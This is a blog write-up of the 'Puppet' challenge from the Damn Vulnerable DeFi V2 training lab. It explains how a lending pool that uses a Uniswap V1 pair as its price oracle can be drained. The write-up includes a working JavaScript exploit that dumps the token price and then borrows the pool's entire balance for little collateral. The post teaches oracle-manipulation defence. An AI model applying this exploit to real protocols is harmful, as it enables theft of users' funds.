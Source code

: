 # Damn Vulnerable DeFi V2 - #8 Puppet

<p className="text-xs text-right">February 23, 2022 by [patrickd](/about#patrickd)</p>

This is part 5 of the write-up series on Damn Vulnerable DeFi V2. Please consider attempting to solve it on your own first since it's a lot less fun after being spoiled!

---

>[**Challenge #8 - Puppet**](https://www.damnvulnerabledefi.xyz/challenges/8.html)
>
>There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.
>
>There's a DVT market opened in an [Uniswap v1 exchange](https://docs.uniswap.org/protocol/V1/introduction), currently with 10 ETH and 10 DVT in liquidity.
>
>Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

This sounds like a classic case of AMM price manipulation allowing us to take an undercollateralized loan...

## Code Review

First, looking at the testcases in [puppet.challenge.js](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/puppet/puppet.challenge.js) we can see that this challenge uses an already compiled build of Uniswap V1 (`build-uniswap-v1` folder). Since I doubt that this challenge wants us to do any reverse engineering, we can probably safely assume that this is the original Uniswap V1 build without changes and we can use the official documentation to interact with it (which was linked in the challenge text above).

The scenario setup code is quite long but can be summarized like this:

1. Send 25 ether to attacker EOA
2. Deploy DVT token contract
3. Deploy UniswapExchange contract as a factory template and the UniswapFactory itself
4. Use UniswapFactory to create an exchange for the DVT token
5. Deploy the vulnerable PuppetPool lending contract for DVT and tell it to use the exchange as price oracle
6. Provide 10 DVT and 10 ETH as liquidity to the Uniswap exchange
7. Give 1000 DVT to attacker and 100000 to the PuppetPool

The success condition is simple: The PuppetPool no longer has any DVT because the attacker account now owns all of them.

---

Aside from the Uniswap contracts and the DVT token, which we should already be quite comfortable with at this point, there's only one contract to look at this time: [PuppetPool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/puppet/PuppetPool.sol) which does exactly what it was described to do, allowing to borrow DVT in exchange for depositing two times of their value in ether as collateral. Functions for paying back the loan or interest rates were apparently omitted for simplicity.

The most interesting part of PuppetPool is the "oracle" function though:

```solidity filename="PuppetPool.sol"
function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

By changing the balances of ether and DVT in the uniswap exchange pair we can manipulate the price and therefore the amount of collateral required for borrowing tokens from the PuppetPool. We want all of the DVT for as little ether collateral as possible, and for that we first have to cause a price dump. To do that we need to decrease the uniswap pair's ether balance and increase the DVT token balance as much as possible.

## Exploit

The exploit first swaps all of the attacker's DVT for ETH causing a price imbalance and then it takes an undercollateralized loan that we don't intend to ever pay back since we got it so "cheap"!

While writing the exploit I noticed that the success condition requires us to have MORE tokens than the pool did, so just stealing all of them isn't enough, we actually have to swap some back (or swap less for ether to begin with).

```javascript filename="puppet.challenge.js"
it('Exploit', async function () {
    // Swap all attacker's initial tokens for ether to dump price.
    await this.token.connect(attacker).approve(this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);
    await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
            ATTACKER_INITIAL_TOKEN_BALANCE.sub(1), // All of them [lest 1wei to pass success conditions].
            1,                                     // We don't care how much ether we get back.
            9999999999                             // We don't care about the deadline.
    );

    // Calculate how much collateral we now need to borrow all tokens with the price being manipulated.
    const collateral = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE); // It's about 20 ether
    await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, { value: collateral });
});
```

The exploit allows us to borrow 100000 DVT for a collateral of only around 20 ether instead of 200000 ether!

For simplicity, I didn't bother writing an exploit contract here and instead did it in multiple transactions via ethers. In reality this wouldn't be very practical since arbitrage bots would likely pick up on our price manipulation and balance it out for profit before we'd be able to exploit it.

I also didn't find the official Uniswap V1 documentation to be very useful to get a simple swap working and had to resort to reading the [source code](https://github.com/Uniswap/v1-contracts/blob/master/contracts/uniswap_exchange.vy#L202-L222) in the end.

## Conclusion

This challenge shows quite well that you should avoid trusting on-chain AMM's as price oracles since they can be manipulated easily by wales and flash loans. Here I'd again recommend watching OpenZeppelin's workshop on [The Dangers of Price Oracles in Smart Contracts](https://www.youtube.com/watch?v=YGO7nzpXCeA) to learn more about securely integrating oracles.